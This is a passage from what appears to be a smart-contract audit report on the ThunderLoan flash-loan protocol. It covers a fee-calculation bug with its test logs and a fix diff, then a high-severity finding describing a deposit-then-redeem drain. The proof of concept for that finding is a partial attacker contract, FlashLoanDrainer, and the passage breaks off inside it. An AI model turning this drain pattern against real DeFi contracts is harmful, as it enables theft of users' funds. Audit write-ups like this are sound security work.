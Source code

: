And Run the Test:

```javascript
   forge test --match-test testCalculatedFeeForNonERC20TokenisMuchLessThanStandardERC20Token -vvvv
```

Take a Look at the `Logs`:

```javascript
   Logs:
      Took out 100 USDT, and the Fee For it is:  100000
      Took out 100 WETH, and the Fee For it is:  100000000000000000
```

**Recommended Mitigation:**

Adjust the `getCalculatedFee` function:

```diff
   function getCalculatedFee(uint256 amount) public view returns(uint256 fee) {
-      uint256 valueOfBorrowedToken = (amount * getPriceInWeth(address(token))) / s_feePrecision;
       fee = (amount * s_flashLoanFee) / s_feePrecision;
   }
```

### [HIGH-3] Attacker Can Drain ThunderLoan By Taking a Flash Loan and repaying with `deposit()` function and then call `redeem()` function.

**Description:**

An attacker can take a flash loan, use the borrowed tokens to deposit back into the protocol, receive AssetTokens, and then redeem them for more tokens than initially borrowed. This cycle drains the protocol's funds.

**Impact:**

This exploit allows an attacker to repeatedly deplete the protocol’s token reserves, leading to significant financial loss for the protocol and its users.

**Proof of Concept:**

Attacker Contract Looks Like this:

```javascript
   contract FlashLoanDrainer {

      ThunderLoan thunderLoan;
      AssetToken assetToken;


      constructor(ThunderLoan _thunderLoan, AssetToken _assetToken) {
         thunderLoan = _thunderLoan;
         assetToken = _assetToken;
      }

      function executeOperation(
         address token,
         uint256 amount,
         uint256 fee,
         address /*initiator*/,
         bytes calldata /*  params */
      )
         external
         returns (bool)
      {
         IERC20(token).approve(address(thunderLoan), amount + fee);
         thunderLoan.deposit(IERC20(token), amount + fee);
         return true;
      }

```